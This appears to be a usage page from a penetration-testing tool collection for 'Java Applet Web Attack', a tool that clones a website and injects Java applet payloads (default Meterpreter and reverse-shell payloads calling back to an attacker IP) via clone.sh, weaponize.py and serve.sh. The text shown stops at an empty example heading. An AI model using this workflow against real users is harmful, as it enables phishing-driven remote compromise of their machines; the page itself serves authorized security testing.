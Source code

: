 Java Applet Web Attack
======================

Website
-------

<https://bitbucket.org/ethanr/java-web-attack>

Description
-----------

This project aims to break out the Java Applet Web Attack method from the Social Engineering Toolkit into a standalone tool.

Install Location
----------------

`/opt/java-web-attack/`

Usage
-----

NOTE: You will want to run all of the commands in this tutorial as root.  To become root run the command `sudo su -`.

`~#` **`cd /opt/java-web-attack`**

`/opt/java-web-attack#` **`./clone.sh <url to clone>`**

`/opt/java-web-attack#` **`./weaponize.py -h`**

        Usage:
          ./weaponize.py [-w <payload>] [-l <payload>] [-m <payload>] <html_file> <ip>
          ./weaponize.py -h

        Options:
          -h            Shows this help message.
          -w            Specifies the Windows payload to use. [default: windows/meterpreter/reverse_tcp]
          -l            Specifies the Linux payload to use. [default: linux/x86/meterpreter/reverse_tcp]
          -m            Specifies the Mac OS X payload to use. [default: osx/x86/shell_reverse_tcp]
          <payload>     The payload string as expected by msfvenom. Run `msfvenom -l payloads` to see all choices.
          <html_file>   The HTML file to insert the Java payload.
          <ip>          The IP address the payload should connect back to.

        Note: The default ports used for the Windows, Linux, and Mac listeners are 3000, 3001, and 3002 respectively.

`/opt/java-web-attack#` **`./serve.sh`**

Video Walkthrough
-----------------

<iframe src="https://onedrive.live.com/embed?cid=8D6C4317A39E3D29&resid=8D6C4317A39E3D29%2155668&authkey=AApvJtEtXsg4BMI" width="320" height="180" frameborder="0" scrolling="no" allowfullscreen sandbox="allow-scripts allow-pointer-lock allow-forms allow-same-origin"></iframe>

Example 1: Cloning a URL
------------------------
